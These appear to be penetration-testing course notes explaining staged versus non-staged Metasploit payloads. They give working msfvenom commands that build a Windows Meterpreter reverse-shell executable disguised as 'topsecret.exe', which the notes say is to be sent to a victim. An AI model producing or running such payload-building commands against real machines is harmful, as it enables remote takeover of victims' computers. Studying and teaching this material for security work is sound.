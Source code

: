 ## Staged vs. Non-Staged Payloads

Two types of payloads: 
1. Staged Payload 
2. Non-Staged Payload

## Staged Payloads

The payload on this type is Delivered in multiple parts:
- ○ First stage: Small loader is sent to the target. 
- ○ Second stage: The loader fetches and executes the larger payload.
- **Example**: 
	- ● `windows/meterpreter/reverse_tcp` sends a small piece of code first, then pulls the larger Meterpreter shell.
	- The Shell and Connection part is connected with “/”.
- The Purpose of Doing this is
	- The initial payload is small, reducing the chances of detection.
	- Allows for more complex functionality like Meterpreter sessions.
- Ex: የሆነ ፕሮግራም ላይ ተጋብዛቹ መድረክ መሪዉ ሲጠራችሁ

## Non-Staged Payloads

The Payload is Delivered in one single piece.
- **Example**: 
	- ● `windows/meterpreter_ reverse_tcp` delivers the entire Meterpreter payload in one go. 
		- a. The Shell and Connection part is connected with “`-`”
- **Purpose** 
	- Does not depend on additional network communication.
	- Only one network transaction is needed for the payload delivery.
- **The Downside is**
	- ○ The entire payload is sent at once, making it easier to detect. 
	- ○ Cannot handle as much complexity as a staged payload.

## Create a Payload for windows.

We will use metasploits Feature called msfvenom to create a payload.
```
~>	msfvenom -p windows/meterpreter/reverse_tcp LHOST=wlan0 LPORT=2020 -f exe > topsecret.exe

~>	msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.7 LPORT=2020 -f exe > topsecret.exe
```
-  As you see we have created the payload 
- Now we will send this to the victim 
- This is the malware for our reverse attack.

## Staged vs non staged

```
# staged ...has smaller size
~>	msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.7 LPORT=2020 -f exe > topsecret.exe

# non staged ...has larger size
~>	msfvenom -p windows/meterpreter_reverse_tcp LHOST=192.168.1.7 LPORT=2020 -f exe > topsecret.exe

```
